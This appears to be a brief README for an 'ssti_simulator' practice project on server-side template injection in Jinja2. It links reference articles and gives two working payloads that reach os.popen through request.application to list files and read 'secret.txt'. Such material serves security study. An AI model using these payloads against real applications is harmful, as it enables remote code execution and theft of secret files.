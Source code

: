 # ssti_simulator 

## Remote Code Execution through SSTI `request.application`
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}  

## SSTI Cheat Sheet
https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

